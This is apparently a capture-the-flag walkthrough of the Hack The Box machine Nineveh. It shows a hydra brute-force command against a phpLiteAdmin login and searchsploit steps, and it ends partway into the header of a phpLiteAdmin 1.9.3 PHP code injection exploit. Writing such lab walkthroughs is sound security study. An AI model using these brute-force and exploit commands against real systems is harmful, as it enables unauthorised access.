 Excellent! We will find a db folder. https://10.10.10.43/db/ 

and we will find another login page with phpLiteAdmin v1.9

![[Nineveh-03.png]]

## phpLiteAdmin Brute Force
Modern HTB doesn’t require brute force on passwords without some clear indication to do so. Nineveh must have been before that time. Given that I only have a password field, and there’s likely a code execution exploit, I started with phpLiteadmin using `hydra`. For a web brute force, I’ll want to start with a smaller password list. [SecLists](https://github.com/danielmiessler/SecLists) (`apt install seclists`) has a `twitter-banned.txt` that seems like a reasonable place to start:

I’ll run `hydra` with the following options:

`-l 0xdf` - `hydra` requires a username, even if it won’t use it
`-P [password file]` - a file of passwords to try
`https-post-form` - this is the plugin to use, which takes a string with three parts, `:` separated:
    -   `/db/index.php` - the path to POST to
    -   `password=^PASS^&remember=yes&login=Log+In&proc_login=true` - the POST data, with `^PASS^` being the thing that will be replaced with words from the wordlist
    -   `Incorrect password` - text on the response that indicates failure to login

```bash
https://10.10.10.43/db/index.php
# we will brute force to login this page
sudo apt install seclists
wc -l /usr/share/seclists/Passwords/twitter-banned.txt
# run the brute force attack with hydra by using seclists
hydra 10.10.10.43 -l admin -P /usr/share/seclists/Passwords/twitter-banned.txt https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```

![[Nineveh-04.png]]
it will find the password is password123.

![[Nineveh-05.png]]


## phpLiteAdmin exploit
let's try default password and searchsploit of phpLiteAdmin 1.9

```bash
searchsploit phpLiteAdmin 1.9
searchsploit -x 24044 
searchsploit -m 24044 
```

```tct
# Exploit Title: phpliteadmin <= 1.9.3 Remote PHP Code Injection Vulnerability
# Google Dork: inurl:phpliteadmin.php (Default PW: admin)
# Date: 01/10/2013
# Exploit Author: L@usch - http://la.usch.io - http://la.usch.io/files/exploits/phpliteadmin-1.9.3.txt
# Vendor Homepage: http://code.google.com/p/phpliteadmin/
# Vendor Status: Informed
# Software Link: http://phpliteadmin.googlecode.com/files/phpliteadmin_v1-9-3.zip
# Version: 1.9.3
# Tested on: Windows and Linux

Description:

phpliteadmin.php#1784: 'Creating a New Database' =>
```